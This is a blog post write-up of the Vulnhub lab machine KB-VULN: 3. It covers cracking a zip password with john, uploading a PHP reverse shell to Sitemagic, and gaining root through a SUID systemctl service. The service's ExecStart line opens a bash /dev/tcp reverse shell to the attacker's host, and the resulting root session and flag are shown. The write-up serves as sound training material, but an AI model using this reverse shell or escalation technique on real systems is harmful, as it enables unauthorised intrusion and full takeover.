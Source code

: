 ```yaml
---
layout: post
title:  "Vulnhub - KB-VULN: 3"
date:   2020-10-26 20:55:00 +1100
category: hacking
---
```


## Introduction
*This machine is the kind that will measure your research ability. This VM is running on VirtualBox. It includes 2 flags:user.txt and root.txt.*

This is [KB-VULN: 3](https://www.vulnhub.com/entry/kb-vuln-3,579/) from vulnhub. After doing Tenderfoot I rolled straight into this one and knocked it over too.

## Ports
This box has:

1. 22/tcp  open  ssh
2. 80/tcp  open  http
3. 139/tcp open  netbios-ssn
4. 445/tcp open  microsoft-ds

So, SSH, HTTP and SMB; gotcha.


## SMB
We have anonymous login to SMB; I used nautilus. I've been liking it lately.

In the share we find *website.zip* which has a password protected note file in it. No problem:

{% highlight shell %}
root@kali:/opt/vulnhub/kbvuln3# john website.john -w=/usr/share/wordlists/rockyou.txt
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
porchman         (website.zip)
1g 0:00:00:00 DONE (2020-10-26 07:49) 1.612g/s 7372Kp/s 7372Kc/s 7372KC/s porkedmark21..pop1937
Use the "--show" option to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

What's the contents?

>Hi Heisenberg! Your website is activated. --> kb.vuln  
Username  : admin  
Password  : jesse  
Have a good day !  

So we have some credentials. Let's check out the website. Also I added *kb.vuln* to /etc/hosts, but it probably wasn't necessary.

## Website
The website is running Sitemagic, same as [Cewlkid: 1](https://blog.gibbons.digital/hacking/2020/09/22/cewl.html). So we have arbitrary PHP file upload. I use the GUI to upload a shell and find it at:

>http://kb.vuln/files/rev-plugin.php

Note: the file is called plugin because I originally used it for a Wordpress thing. It's nothing special, just a bash reverse shell.

I catch the shell in a listener and we're away.

## Privesc
We've only got one prominent user (*heisenberg*) and they're in the sudo group so we're probably going there or direct to root. Linpeas says *systemctl* has the SUID bit set; so that's our method.

[GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid) has a technique, but it fails. Hmmm. I try a slightly different custom service, but get an error:

>Failed to lookup unit file state: Invalid argument

There doesn't appear to be anything wrong with the service file, but the system isn't happy. After some trawling through stackoverflow and other places, I visit */etc/systemd/system/multi-user.target.wants* and find a broken symlink:

>0 lrwxrwxrwx  1 root root   29 Oct  2 18:53 root.service -> /home/heisenberg/root.service

The */home/heisenberg/root.service* file does not exist. I can't remove it with *rm*; I don't have permission. However:

{% highlight shell %}
www-data@kb-server:/etc/systemd/system/multi-user.target.wants$ systemctl disable root.service
<i-user.target.wants$ systemctl disable root.service            
Removed /etc/systemd/system/multi-user.target.wants/root.service.
Removed /etc/systemd/system/root.service.
{% endhighlight %}

This got rid of the problem. On to root!

My service looked like this:
{% highlight shell %}
root@kali:/opt/vulnhub/kbvuln3# cat toor.service 
[Unit]
Description=Whatever

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.1.77/1235 0>&1"

[Install]
WantedBy=multi-user.target
{% endhighlight %}

And it was located in */dev/shm*. With the broken symlink out of the way:

{% highlight shell %}
www-data@kb-server:/etc/systemd/system/multi-user.target.wants$ systemctl enable /dev/shm/toor.service
<arget.wants$ systemctl enable /dev/shm/toor.service            
Created symlink /etc/systemd/system/multi-user.target.wants/toor.service -> /dev/shm/toor.service.
Created symlink /etc/systemd/system/toor.service -> /dev/shm/toor.service.
www-data@kb-server:/etc/systemd/system/multi-user.target.wants$ systemctl start toor
<ystem/multi-user.target.wants$ systemctl start toor            
www-data@kb-server:/etc/systemd/system/multi-user.target.wants$
{% endhighlight %}

And in my listener:

{% highlight shell %}
root@kali:/opt/vulnhub/kbvuln3# nc -nvlp 1235
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1235
Ncat: Listening on 0.0.0.0:1235
Ncat: Connection from 192.168.1.127.
Ncat: Connection from 192.168.1.127:38988.
bash: cannot set terminal process group (5763): Inappropriate ioctl for device
bash: no job control in this shell
root@kb-server:/# whoami
whoami
root
root@kb-server:/# cd /root
cd /root
root@kb-server:~# ls -lash
ls -lash
total 36K
4.0K drwx------  4 root root 4.0K Oct  2 18:12 .
4.0K drwxr-xr-x 24 root root 4.0K Oct 26 08:53 ..
4.0K -rw-------  1 root root   38 Oct  2 18:54 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
4.0K drwxr-xr-x  3 root root 4.0K Oct  2 16:33 .local
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-r--r--  1 root root 1.1K Oct  2 15:55 root.txt
4.0K drwx------  2 root root 4.0K Oct  2 16:18 .ssh
4.0K -rw-------  1 root root  873 Oct  2 16:40 .viminfo
root@kb-server:~# cat root.txt
cat root.txt
                         
ASCII Art removed
kernelblog.org    
49360ba4cbe27a1b900df25b247315d7
{% endhighlight %}

Neato completo.
